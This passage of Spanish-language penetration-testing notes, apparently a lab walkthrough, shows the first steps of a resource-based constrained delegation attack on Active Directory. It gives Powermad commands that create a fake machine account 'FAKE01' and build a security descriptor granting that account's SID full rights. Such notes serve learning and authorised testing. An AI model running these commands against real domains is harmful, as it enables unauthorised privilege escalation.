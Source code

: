 ```php
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![20240305111342.png](20240305111342.png)

Comprobar si se creo la computadora correctamente y  anotar su SID:

![20240305111439.png](20240305111439.png)


Cree un nuevo descriptor de seguridad sin formato para la `FAKE01`entidad principal de la computadora:

```php
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

![20240305111644.png](20240305111644.png)
